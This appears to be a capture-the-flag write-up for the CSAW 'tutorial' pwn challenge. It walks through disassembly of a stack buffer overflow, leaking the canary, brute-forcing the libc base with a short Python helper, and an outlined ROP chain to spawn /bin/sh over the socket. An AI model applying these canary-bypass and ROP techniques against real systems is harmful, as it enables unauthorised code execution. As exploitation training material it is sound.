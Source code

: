 # problem
Given :
 * the binary - `tutorial`
 * a copy of their libc - `libc-2.19.so`
 * an endpoint - `nc pwn.chal.csaw.io 8002`

The program output looked something like :
```
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffca446169c
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>AA
AA
XXXXXX-Tutorial-
1.Manual
2.Practice
3.Quit
>3
You still did not solve my challenge.
```

# solution
## investigation
To decompile the executable I used radare2 and quickly found the function where a buffer overrun was achievable.
```
$ r2 -A tutorial
[0x00400c90]> pdf @ sym.func2                                                                                                                [12/304]
/ (fcn) sym.func2 176
|           ; var int local_144h @ rbp-0x144
|           ; var int local_140h @ rbp-0x140
|           ; var int local_8h @ rbp-0x8
|           ; CALL XREF from 0x0040104e (sym.menu)
|           0x00400ef2      55             push rbp
|           0x00400ef3      4889e5         mov rbp, rsp
|           0x00400ef6      4881ec500100.  sub rsp, 0x150
|           0x00400efd      89bdbcfeffff   mov dword [rbp - local_144h], edi
|           0x00400f03      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=0x2240 ; '('
|           0x00400f0c      488945f8       mov qword [rbp - local_8h], rax
|           0x00400f10      31c0           xor eax, eax
|           0x00400f12      488d85c0feff.  lea rax, [rbp - local_140h]
|           0x00400f19      be2c010000     mov esi, 0x12c
|           0x00400f1e      4889c7         mov rdi, rax
|           0x00400f21      e8dafcffff     call sym.imp.bzero
|           0x00400f26      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f2c      ba1d000000     mov edx, 0x1d
|           0x00400f31      be52134000     mov esi, str.Time_to_test_your_exploit..._n ; "Time to test your exploit...." @ 0x401352
|           0x00400f36      89c7           mov edi, eax
|           0x00400f38      e8a3fbffff     call sym.imp.write
|           0x00400f3d      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f43      ba01000000     mov edx, 1
|           0x00400f48      be70134000     mov esi, 0x401370
|           0x00400f4d      89c7           mov edi, eax
|           0x00400f4f      e88cfbffff     call sym.imp.write
|           0x00400f54      488d8dc0feff.  lea rcx, [rbp - local_140h]
|           0x00400f5b      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f61      bacc010000     mov edx, 0x1cc
|           0x00400f66      4889ce         mov rsi, rcx
|           0x00400f69      89c7           mov edi, eax
|           0x00400f6b      e8f0fbffff     call sym.imp.read
|           0x00400f70      488d8dc0feff.  lea rcx, [rbp - local_140h]
|           0x00400f77      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f7d      ba44010000     mov edx, 0x144
|           0x00400f82      4889ce         mov rsi, rcx
|           0x00400f85      89c7           mov edi, eax
|           0x00400f87      e854fbffff     call sym.imp.write
|           0x00400f8c      488b45f8       mov rax, qword [rbp - local_8h]
|           0x00400f90      644833042528.  xor rax, qword fs:[0x28]
|       ,=< 0x00400f99      7405           je 0x400fa0
|       |   0x00400f9b      e860fbffff     call sym.imp.__stack_chk_fail
|       |   ; JMP XREF from 0x00400f99 (sym.func2)
|       `-> 0x00400fa0      c9             leave
\           0x00400fa1      c3             ret
```
Indeed 0x1cc bytes are read `0x00400f61 mov edx, 0x1cc`, while the stack frame is only 0x150 bytes large `0x00400ef6 sub rsp, 0x150`
However, during the function prelude, a canary value is placed at the start of the stack frame.
```
0x00400f90 xor rax, qword fs:[0x28]
0x00400f99 je 0x400fa0
0x00400f9b call sym.imp.__stack_chk_fail
```
It is then checked again when the function exits. The program then aborts if its value is unexpected.
```
0x00400f8c mov rax, qword [rbp - local_8h]
0x00400f90 xor rax, qword fs:[0x28]
0x00400f99 je 0x400fa0
0x00400f9b call sym.imp.__stack_chk_fail
```
The second limitation is NX. The stack is not executale anf ROP chains will have to be used.

Solving this will end up being a three steps process : 
 * find a way to bypass the canary
 * build a rop chain to leak memory (libc base)
 * build a final rop chain to pop a shell

## bypassing the canary
It turns outs that the Practice step of the program writes a tiny bit more than it should (the XXXXXX bytes in my example) and thus conviniently leaks the canary as well as the 4 lowest bytes of rbp.

Just what we need :)

## leaking arbitrary memory chunks
stack pivoting using the rbp value
pop rsi gadget
return to the write call

## final exploit
Reversing the code to understand what the reference adresse was it seemed to be linked to the puts function. However I failed to get a valid base doing `libc_base = Reference - libc_puts` and reverted to an other strategy.

Our friend from RingZer0 [uaf.io](http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html) tells us the libc base will be at a multiple of the page size 0x1000 and can be found through brute force.
```python
def findLibcBase(ptr):
   ptr &= 0xfffffffffffff000
   while leak(ptr, 4) != "\x7fELF":
      ptr -= 0x1000
   return ptr
```
We now have so many ROP possiblities!
gadgets :
poprdi, poprsi, poprdx, poprax, syscall
functions :
clode and dup
strings :
/bin/sh

Hooking the program's standard io to the file descriptor of the socket. Using our leaking function we find its value is 4.
execve /bin/sh

```
./tuto.py
$ ls
flag
tutorial
tutorial.c
$ cat flag
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```
